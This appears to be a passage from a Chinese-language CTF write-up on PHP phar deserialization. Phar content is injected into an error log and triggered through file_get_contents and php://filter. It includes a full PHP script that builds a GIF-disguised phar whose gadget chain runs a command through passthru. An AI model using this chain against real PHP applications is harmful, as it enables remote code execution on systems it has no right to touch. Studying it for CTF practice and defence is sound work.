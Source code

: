 想到phar反序列，在`Myerror.class.php`中写到将错误日志文件写到了`/var/www/html/log/error.txt`，这里就给我们很明显的提示了，就是把想要的数据写入到错误日志里面，所以可以写phar文件内容进去，然后通过这个`file_get_content`,触发phar文件，就可以实现RCE

（之前的phar反序列化基本都是上传文件）

![image-20220522145850951](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220522145850951.png)

构造完整的phar文件如下

```php
<?php
class Files{
    public $filename;

    public function __construct(){
        $this->arg = 'strings /flag';
    }
}
class Myerror{
    public $message;

    public function __construct(){
        $this -> test = 'passthru';
        $this -> message = new Files();
    }
}
class User{
    public $username = 'admin';
    public function __construct(){
        $this -> username = new Myerror();
    }

}
$a = new User();
$a -> password = [new User(),"check"];
$b=[$a,null];
$phar = new Phar("phar4.phar");
$phar -> startBuffering();
$phar -> setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar -> setMetadata($b);
$phar -> addFromString("test.txt","test");
$phar -> stopBuffering();
?>
```

###  php://filter的利用

我们把phar文件内容写到日志去了，但是利用的部分只是图中红框，所以我们需要通过`filter`协议去处理数据



![image-20220522151501824](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220522151501824.png)

这儿我们通过编码的形式去处理数据
